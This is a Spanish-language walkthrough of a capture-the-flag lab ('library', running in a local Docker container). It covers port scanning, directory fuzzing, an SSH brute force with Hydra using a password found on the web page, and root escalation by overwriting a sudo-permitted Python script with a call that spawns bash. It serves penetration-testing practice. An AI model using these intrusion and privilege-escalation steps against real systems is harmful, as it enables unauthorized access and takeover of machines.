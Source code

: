 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh library.tar
```

![[Pasted image 20250207091231.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250207091255.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250207091554.png]]

Nos metemos en la web:

![[Pasted image 20250207091438.png]]

JIFGHDS87GYDFIGD

Fuerza Bruta con **Hydra**:

```Bash
hydra -L /usr/share/wordlists/rockyou.txt.gz -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```

![[Pasted image 20250207092055.png]]

Nos conectamos con **SSH**:

```Bash
ssh carlos@172.17.0.2
```

![[Pasted image 20250207091820.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250207091911.png]]

```Bash
cd /opt
```

![[Pasted image 20250207091948.png]]

```Bash
ls
```

![[Pasted image 20250207092038.png]]

```Bash
cat script.py
```

![[Pasted image 20250207092127.png]]

```Bash
rm script.py
```

![[Pasted image 20250207092423.png]]

```Bash
nano script.py
```

![[Pasted image 20250207092304.png]]

```Python
import os

os.system("/bin/bash")
```

![[Pasted image 20250207092324.png]]

```
chmod +x script.py
```

![[Pasted image 20250207092514.png]]

```Bash
sudo /usr/bin/python3 /opt/script.py
```

![[Pasted image 20250207092608.png]]

```Bash
whoami
```

![[Pasted image 20250207092639.png]]

